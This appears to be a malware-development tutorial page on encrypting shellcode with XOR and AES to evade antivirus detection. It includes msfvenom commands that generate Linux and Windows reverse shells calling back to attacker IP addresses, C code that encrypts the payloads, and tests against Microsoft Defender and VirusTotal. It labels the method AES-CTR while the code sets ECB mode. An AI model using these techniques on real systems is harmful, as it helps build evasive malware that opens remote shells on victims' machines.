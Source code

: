 > Today we are going to learn what is encryption and why do we need it. And we'll also test how undetectable is our program. You don't have to become cryptographer to learn malware development, so take a chill pill and enjoy..

# Prerequisites
Do yourself a favor and learn the following topics before staring
1. **Encryption:** Symmetric vs. Asymmetric
2. **Basic Terms:** Cipher, Ciphertext, Key
3. **Modes of AES:** CTR, CBC, CFB, OFB, GCM etc

*Entropy* - Entropy refers to the randomness or unpredictability of a program. High entropy makes it harder for antivirus (AV) software to analyze or flag your binary.
Ways to increase entropy:
- Encrypting or packing payloads
- Inserting junk instructions
- Control flow obfuscation

*XOR* - A basic encryption method that performs a binary XOR operation on each byte. It’s fast and simple but weak — easy to reverse and often detected by AVs.

| A   | B   | output |
| --- | --- | ------ |
| 0   | 0   | 0      |
| 0   | 1   | 1      |
| 1   | 0   | 1      |
| 1   | 1   | 0      |

*Heuristic detection* - A malware detection technique where the AV watches the program’s behavior and patterns instead of relying on fixed signatures.
# Payload Encryption
Encrypting your payload boosts entropy and reduces static signature detection. But beware: **encryption alone doesn’t guarantee evasion**, especially if the rest of the binary has red flags.

### XOR
XOR is simple and fast, but unreliable for real evasion — **easily reversible** and frequently flagged by AV.

1. Now it's self explanatory what the code is doing, it's getting the all the bytes from the variable shellcode and XORing it with the key.
2. Mind that the `BYTE` is an windows datatype, so have to import `windows.h`.
```c
#include <stdio.h>
#include <windows.h>

// this is an linux reverse shell
// msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.10.2 LPORT=4444 -f c

void main() {
	unsigned char shellcode[] = 
	"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50"
	// Make your own shellcode
	"\xff\xd5";

	BYTE key = 0x80;
	unsigned char EncryptedShellcode[sizeof(shellcode)];

	for(int i=0; i<sizeof(shellcode); i++)
	{
		EncryptedShellcode[i] = shellcode[i] ^ (key + i);				
	}
	
	for(int i=0; i<sizeof(EncryptedShellcode); i++)
	{
		printf("0x%02X, ",EncryptedShellcode[i]);
	}
	
}
```

3. Now copy the output of the above code and just place it in the `buf` variable and try running it. We are testing this against windows defender.
```c
#include <stdio.h>
void main(){

// payload is XORed

  unsigned char buf[] = {0x7C, 0x69, 0x00, 0x83, 0x84, 0x85, 0xE6, 0x0E, 0x6D, 0xB8,
  // XORed shellcode here
  0xD1, 0xD5, 0xC0, 0x92, 0x3D, 0x16, 0xC4};

  printf("[+] Suckcess ");
  getchar();

}
```

### AES-CTR
AES-CTR means AES encryption in CTR (counter) mode. It's much better than XOR.
![your internet sucks image not loaded](/images/PayloadEncryption-1.png)
- **Nonce (IV)** - A pseudo-random initialization vector
- **Key** - Your symmetric encryption key
- **counter**  - Increments per block (0, 1, 2...)

AES encrypts `IV || counter` with the key to generate a **keystream**, which is then **XORed with the plaintext** to produce the ciphertext.

We will use [Windows API](https://learn.microsoft.com/en-us/windows/win32/seccng/typical-cng-programming?source=recommendations) to make our cipher. we will use Bcrypt to import the necessary functions to encrypt our payload.
1. Generate shellcode with the following command
   `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.2.10 LPORT=60123 -f c`
2. As always help yourself with the docs to understand the meaning of functions.

```c
#include <stdio.h>
#include <windows.h>
#include <bcrypt.h>

int main() {
    BCRYPT_ALG_HANDLE algoHandler = NULL;
    BCRYPT_KEY_HANDLE keyHandler = NULL;
    UCHAR keyObject[654] = {0};
    UCHAR key[128] = {0};
    UCHAR Encrypted[514] = {0};
    DWORD cbEncrypted = 0;

    UCHAR data[] =
        "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50"
        "\xff\xd5"; // Your shellcode

    // Generate random key
    BCryptGenRandom(NULL, key, sizeof(key), BCRYPT_USE_SYSTEM_PREFERRED_RNG);

    // Initialize algorithm
    BCryptOpenAlgorithmProvider(&algoHandler, BCRYPT_AES_ALGORITHM, NULL, 0);
    BCryptSetProperty(algoHandler, BCRYPT_CHAINING_MODE, (PUCHAR)BCRYPT_CHAIN_MODE_ECB,
                      sizeof(BCRYPT_CHAIN_MODE_ECB), 0);

    // Generate key handle
    BCryptGenerateSymmetricKey(algoHandler, &keyHandler, keyObject,
                               sizeof(keyObject), key, sizeof(key), 0);

    // Encrypt
    BCryptEncrypt(keyHandler, data, sizeof(data), NULL, NULL, 0,
                  Encrypted, sizeof(Encrypted), &cbEncrypted, BCRYPT_BLOCK_PADDING);

    // Print encrypted shellcode
    printf("[+] Encrypted data:\n");
    for (DWORD i = 0; i < cbEncrypted; i++) {
        printf("0x%02X, ", Encrypted[i]);
    }

    // Cleanup
    BCryptDestroyKey(keyHandler);
    BCryptCloseAlgorithmProvider(algoHandler, 0);
}
```
3. **Bonus tip** - Always look out for the size of the `KEY` and `KEY_OBJECT`  as they vary for every algo and if you don't follow them, there won't be any errors and you'll waste hours of your time. just like I did😑. You can use something like this to verify it
```c
// Verify key object size
    DWORD cbKeyObject = 0;
    status = BCryptGetProperty(algoHandler, BCRYPT_OBJECT_LENGTH, (PUCHAR)&cbKeyObject, sizeof(DWORD), &cbData, 0);
    if (!BCRYPT_SUCCESS(status)) {
        printf("BCryptGetProperty (object length) failed: 0x%08X\n", status);
        BCryptCloseAlgorithmProvider(algoHandler, 0);
        return 1;
    }
    if (sizeof(keyObject) < cbKeyObject) {
        printf("Key object buffer too small: need %lu bytes\n", cbKeyObject);
        BCryptCloseAlgorithmProvider(algoHandler, 0);
        return 1;
    }
```
4. So now we test this against the `Microsoft Defender`
```c
#include <stdio.h>

void main(){
    unsigned char buf[] = {0x54, 0xAF, 0x96, 0x81, 0x0C, 0x32, 0xA1, 0x37, 0xB9, 0x81,
    // Make your own shellcode
    0xAB, 0xA7 };

    printf("[+] Suckcess");
    getchar();
}
```
![your internet sucks image not loaded](/images/PayloadEncryption-2.png)
# Why this doesn't work ??
## AES-CTR / XOR doesn't work against Virustotal ??
![your internet sucks image not loaded](/images/PayloadEncryption-3.png)
Still this is a pretty good detection rate but we need to understand why even those 3 AV flags our malware. It's because - 
- **Huge arrays of bytes** sitting idle is suspicious.
- AVs pre-index common shellcode **and their XOR/AES variants**.
- **High entropy** from encrypted blobs makes binaries stand out.

## Can We Beat VirusTotal?
Yes we can, but I think we should worry more about writing malware first 😂. will cover this after some time.